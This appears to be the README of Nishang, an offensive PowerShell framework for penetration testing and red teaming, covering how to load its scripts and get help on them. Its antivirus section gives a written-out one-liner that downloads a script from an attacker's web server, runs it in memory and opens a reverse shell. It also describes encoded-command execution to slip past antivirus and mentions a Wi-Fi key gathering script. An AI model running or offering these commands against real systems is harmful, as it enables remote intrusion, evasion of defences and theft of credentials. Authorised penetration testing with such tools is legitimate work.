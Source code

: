 # Nishang

### Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.
By [nikhil_mitt](https://twitter.com/nikhil_mitt)

# Usage

Import all the scripts in the current PowerShell session (PowerShell v3 onwards).

    PS C:\nishang> Import-Module .\nishang.psm1

Or use the individual scripts with dot sourcing.

    PS C:\nishang> Import-Module .\Gather\Get-Information.ps1
    PS C:\nishang> Get-Information

To get help about any script or function, use:

    PS C:\nishang> Get-Help [scriptname] -full

Note that the help is available for the function loaded after running the script and not the script itself since version 0.3.8. In all cases, the function name is same as the script name.

For example, to see the help about Get-WLAN-Keys.ps1, use

    PS C:\nishang> .C:\nishang\Gather\Get-WLAN-Keys.ps1
    PS C:\nishang> Get-Help Get-WLAN-Keys -Full

# Anti Virus
Nishang scripts are flagged by many Anti Viruses as malicious. The scripts on a target are meant to be used in memory which is very easy to do with PowerShell. Two basic methods to ***execute PowerShell scripts in memory***:

## Method 1. Use the in-memory dowload and execute

Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.

    powershell Invoke-Expression (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]

## Method 2. Use the -encodedcommand (or -e) parameter of PowerShell

All the scripts in Nishang export a function with same name in the current PowerShell session. Therefore, make sure the function call is made in the script itself while using encodedcommand parameter from a non-PowerShell shell. For above example, add a function call (without quotes) "Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]".
